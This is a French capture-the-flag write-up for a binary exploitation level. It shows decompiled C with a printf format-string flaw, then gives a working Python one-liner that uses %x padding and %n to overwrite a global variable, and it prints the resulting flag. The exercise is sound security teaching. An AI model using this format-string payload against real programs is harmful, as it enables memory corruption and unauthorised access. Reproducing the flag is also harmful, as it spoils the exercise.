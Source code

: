 # Rapport CTF - [Level04]

### Observation :
En arrivant sur le level4 on trouve un exécutable nommé level4.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaîne de caractère puis se ferme, comme sur le level précédant. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048444) --------------------------------------------------------
int __cdecl p(char *format)
{
return printf(format);
}

//----- (08048457) --------------------------------------------------------
int n()
{
int result; // eax
char s[520]; // [esp+10h] [ebp-208h] BYREF

fgets(s, 512, stdin);
p(s);
result = m;
if ( m == 16930116 )
return system("/bin/cat /home/user/level5/.pass");
return result;
}
// 8049810: using guessed type int m;

//----- (080484A7) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
return n();
}
```
Ce level est pareil que le dernier a quelque petit détails:
- Le printf est dans une autre fonction.
- `m` dois maintenant être égal a `16930116`.


### Solution :
Le principe reste le meme, mais il nous faut écrire plus d'adresse pour reussir a decaler plus la memoire, en l'occurrence `11` fois, ainci que `16930116` octets suplementaire. \
Le probleme etant que nous ne pouvons écrire que 512 caracteres, limite imposer par la fonction `fgets()` \
Pour regler ce probleme nous allons demander a printf d'écrire beaucoup de caracteres grace au `%x` il nous faut juste prendre notre chiffre de base `16930116` et le diviser par 11 `%x` et ajouter un dernier `%x` modulo de `16930116` - 4 pour notre adresse de `m`; 

On fait la commande suivante pour obtenir le flag :
```sh
python -c "print ('\x08\x04\x98\x10'[::-1] + '%1539094.x ' * 10  + '%1539162.x'+ '%n')" | ./level4
```

### Resultat :
```sh
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
